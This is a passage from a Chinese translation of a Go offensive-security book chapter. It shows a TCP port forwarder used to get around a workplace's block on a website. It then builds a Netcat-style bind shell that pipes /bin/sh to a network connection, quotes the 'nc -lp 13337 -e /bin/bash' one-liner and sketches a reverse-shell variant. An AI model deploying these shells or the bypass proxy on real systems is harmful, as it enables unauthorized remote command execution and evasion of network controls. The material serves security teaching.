在展示代码之前，先考虑一下这个假设但现实的问题：Joe 是一个表现不佳的员工，他在 ACME 公司担任业务分析师，凭借简历上稍微夸大的内容，拿着一份丰厚的薪水。（他真的去过常春藤盟校吗？Joe，这可不太道德。）Joe 的动力不足，唯一能与之匹配的只有他对猫的热爱——以至于 Joe 在家里安装了猫咪监控摄像头，并通过网站 *joescatcam.website* 远程监控这些毛茸茸的家伙们。不过有一个问题：ACME 已经注意到 Joe 了。他们不喜欢 Joe 24/7 使用宝贵的 ACME 网络带宽进行 4K 超高清猫咪直播。ACME 甚至封锁了员工访问 Joe 的猫咪直播网站。

Joe 想到了一个主意。“如果我在一个我控制的基于互联网的系统上设置一个端口转发器，”Joe 说，“并强制将所有流量从那个主机重定向到 *joescatcam.website* 呢？”第二天，Joe 在公司检查，确认他可以访问自己托管在 *joesproxy.com* 域名下的个人网站。Joe 跳过了下午的会议，去了咖啡店，迅速编写了解决问题的代码。他将会把所有接收到的流量从 *http://joesproxy.com* 转发到 *http://joescatcam.website*。

下面是 Joe 在 *joesproxy.com* 服务器上运行的代码：

```
func handle(src net.Conn) {
    dst, err := net.Dial("tcp", "joescatcam.website:80")❶
    if err != nil {
        log.Fatalln("Unable to connect to our unreachable host")
    }
    defer dst.Close()

    // Run in goroutine to prevent io.Copy from blocking
 ❷ go func() {
        // Copy our source's output to the destination
        if _, err := io.Copy(dst, src)❸; err != nil {
            log.Fatalln(err)
        }
    }()
    // Copy our destination's output back to our source
    if _, err := io.Copy(src, dst)❹; err != nil {
        log.Fatalln(err)
    }
}
func main() {
    // Listen on local port 80
    listener, err := net.Listen("tcp", ":80")
    if err != nil {
        log.Fatalln("Unable to bind to port")
    }

    for {
        conn, err := listener.Accept()
        if err != nil {
            log.Fatalln("Unable to accept connection")
        }
        go handle(conn)
    }
}
```

首先查看 Joe 的 `handle(net.Conn)` 函数。Joe 连接到 *joescatcam.website* ❶（回想一下，这个不可达的主机无法直接从 Joe 的公司工作站访问）。接着，Joe 使用 `Copy(Writer, Reader)` 两次。第一次 ❸ 确保来自入站连接的数据被复制到 *joescatcam.website* 连接。第二次 ❹ 确保从 *joescatcam.website* 读取的数据被写回到连接的客户端连接。由于 `Copy(Writer, Reader)` 是一个阻塞函数，并且会一直阻塞直到网络连接关闭，Joe 明智地将对 `Copy(Writer, Reader)` 的第一次调用封装在一个新的 goroutine ❷ 中。这确保了 `handle(net.Conn)` 函数内的执行可以继续进行，并且第二次 `Copy(Writer, Reader)` 调用可以执行。

Joe 的代理监听端口 80，并将从 *joescatcam.website* 上来回传输的任何流量转发过来。Joe，那位疯狂而浪费的人，确认他可以通过 *joesproxy.com* 连接到 *joescatcam.website*，并使用 `curl` 命令进行连接：

```
$ curl -i -X GET http://joesproxy.com
HTTP/1.1 200 OK
Date: Wed, 25 Nov 2020 19:51:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Thu, 27 Jun 2019 15:30:43 GMT
ETag: "6d-519594e7f2d25"
Accept-Ranges: bytes
Content-Length: 109
Vary: Accept-Encoding
Content-Type: text/html
--snip--
```

此时，Joe 已经成功了。他正在过上梦想中的生活，浪费着 ACME 提供的时间和网络带宽，同时看着他的猫。今天，将会有猫咪！

#### 模拟 Netcat 执行命令

在这一节中，我们将复制 Netcat 的一些有趣功能——特别是它的巨大安全漏洞。

*Netcat*是 TCP/IP 的瑞士军刀——本质上是 Telnet 的更灵活、可编程的版本。它包含一个功能，可以将任何任意程序的 stdin 和 stdout 通过 TCP 重定向，使攻击者能够将单个命令执行漏洞转化为操作系统的 shell 访问。例如，考虑以下内容：

```
$ nc –lp 13337 –e /bin/bash
```

该命令在端口 13337 上创建一个监听服务器。任何通过 Telnet 等方式连接的远程客户端，都能够执行任意的 bash 命令——因此，这被称为*巨大的安全漏洞*。Netcat 允许你在程序编译过程中可选地包含这个功能。（出于充分的理由，你在标准 Linux 构建的 Netcat 二进制文件中通常*不*会找到这个功能。）它足够危险，因此我们将展示如何在 Go 中创建它！

首先，查看 Go 的`os/exec`包。你将使用它来运行操作系统命令。该包定义了一个类型`Cmd`，它包含执行命令和操作 stdin 和 stdout 所需的方法和属性。你将把 stdin（一个`Reader`）和 stdout（一个`Writer`）重定向到一个`Conn`实例（它既是`Reader`也是`Writer`）。

当你收到一个新连接时，可以使用`os/exec`中的`Command(name string, arg ...string)`函数来创建一个新的`Cmd`实例。此函数的参数为操作系统命令和任何参数。在这个例子中，将`/bin/sh`硬编码为命令，并传递`-i`作为参数，这样你就进入了交互模式，这使得你可以更可靠地操作 stdin 和 stdout：

```
cmd := exec.Command("/bin/sh", "-i")
```

这创建了一个`Cmd`实例，但尚未执行命令。你有几种选择来操作 stdin 和 stdout。你可以像之前讨论的那样使用`Copy(Writer, Reader)`，或者直接将`Reader`和`Writer`分配给`Cmd`。让我们直接将你的`Conn`对象分配给`cmd.Stdin`和`cmd.Stdout`，如下所示：

```
cmd.Stdin = conn
cmd.Stdout = conn
```

完成命令和流的设置后，你可以使用`cmd.Run()`来运行命令：

```
if err := cmd.Run(); err != nil {
    // Handle error.
}
```

这个逻辑在 Linux 系统上完全有效。然而，当你在 Windows 系统上调整和运行程序时，运行`cmd.exe`而不是`/bin/bash`，你会发现连接的客户端永远不会收到命令输出，因为 Windows 特有的匿名管道处理方式。以下是解决该问题的两种方法。

首先，你可以调整代码，明确强制刷新 stdout 来纠正这个细节。你可以通过实现一个自定义的`Writer`来代替直接将`Conn`分配给`cmd.Stdout`，该`Writer`包装了`bufio.Writer`（一个缓冲写入器），并明确调用其`Flush`方法来强制刷新缓冲区。有关`bufio.Writer`的示例用法，请参考第 35 页中的“创建回显服务器”部分。

这是自定义写入器`Flusher`的定义：

```
   // Flusher wraps bufio.Writer, explicitly flushing on all writes.
   type Flusher struct {
       w *bufio.Writer
   }

   // NewFlusher creates a new Flusher from an io.Writer.
   func NewFlusher(w io.Writer) *Flusher {
       return &Flusher{
           w: bufio.NewWriter(w),
       }
   }

   // Write writes bytes and explicitly flushes buffer.
❶ func (foo *Flusher) Write(b []byte) (int, error) {
       count, err := foo.w.Write(b)❷
       if err != nil {
           return -1, err
       }
       if err := foo.w.Flush()❸; err != nil {
           return -1, err
       }
       return count, err
   }
```

`Flusher`类型实现了一个`Write([]byte)`函数❶，它将数据写入到底层的缓冲写入器中，然后刷新❸输出。

通过实现一个自定义写入器，你可以调整连接处理器，以实例化并使用这个`Flusher`自定义类型来处理`cmd.Stdout`：

```
func handle(conn net.Conn) {
    // Explicitly calling /bin/sh and using -i for interactive mode
    // so that we can use it for stdin and stdout.
    // For Windows use exec.Command("cmd.exe").
    cmd := exec.Command("/bin/sh", "-i")

    // Set stdin to our connection
    cmd.Stdin = conn

    // Create a Flusher from the connection to use for stdout.
    // This ensures stdout is flushed adequately and sent via net.Conn.
    cmd.Stdout = NewFlusher(conn)

    // Run the command.
    if err := cmd.Run(); err != nil {
 log.Fatalln(err)
    }
}
```

这个解决方案虽然足够，但并不优雅。虽然工作代码比优雅的代码更为重要，我们将利用这个问题作为机会来介绍`io.Pipe()`函数——Go 语言的同步内存管道，可以用于连接`Readers`和`Writers`：

```
func Pipe() (*PipeReader, *PipeWriter)
```

使用`PipeReader`和`PipeWriter`可以避免显式刷新写入器，并将标准输出与 TCP 连接同步连接。你将再次重写处理函数：

```
func handle(conn net.Conn) {
    // Explicitly calling /bin/sh and using -i for interactive mode
    // so that we can use it for stdin and stdout.
    // For Windows use exec.Command("cmd.exe").
    cmd := exec.Command("/bin/sh", "-i")
    // Set stdin to our connection
    rp, wp := io.Pipe()❶
    cmd.Stdin = conn
 ❷ cmd.Stdout = wp
 ❸ go io.Copy(conn, rp)
    cmd.Run()
    conn.Close()
}
```

对`io.Pipe()`的调用❶创建了一个同步连接的读取器和写入器——写入到写入器（本示例中的`wp`）的数据将被读取器（`rp`）读取。因此，你将写入器分配给`cmd.Stdout`❷，然后使用`io.Copy(conn, rp)`❸将`PipeReader`链接到 TCP 连接。通过使用 goroutine 来防止代码阻塞，你完成了这一操作。命令的任何标准输出都会发送到写入器，然后通过管道传输到读取器并通过 TCP 连接发送出去。这个实现够优雅吗？

就这样，从等待连接的 TCP 监听器的角度，你成功地实现了 Netcat 的巨大安全漏洞。你可以使用类似的逻辑，从连接客户端的角度实现功能，将本地二进制程序的标准输出和标准输入重定向到远程监听器。具体细节由你来确定，但可能包括以下内容：

+   通过`net.Dial(`network`, `address string`)`建立与远程监听器的连接。

+   通过`exec.Command(`name string`, `arg ...string`)`初始化一个`Cmd`。

+   重定向`Stdin`和`Stdout`属性，以便使用`net.Conn`对象。

+   运行命令。

此时，监听器应该已接收到连接。发送到客户端的任何数据应视为客户端的标准输入(stdin)，而在监听器上接收到的任何数据应视为标准输出(stdout)。此示例的完整代码可在[*https://github.com/blackhat-go/bhg/blob/master/ch-2/netcat-exec/*](https://github.com/blackhat-go/bhg/blob/master/ch-2/netcat-exec/main.go)*main.go*中找到。

### 总结

现在你已经探索了 Go 语言在网络、I/O 和并发方面的实际应用，让我们继续讨论如何创建可用的 HTTP 客户端。
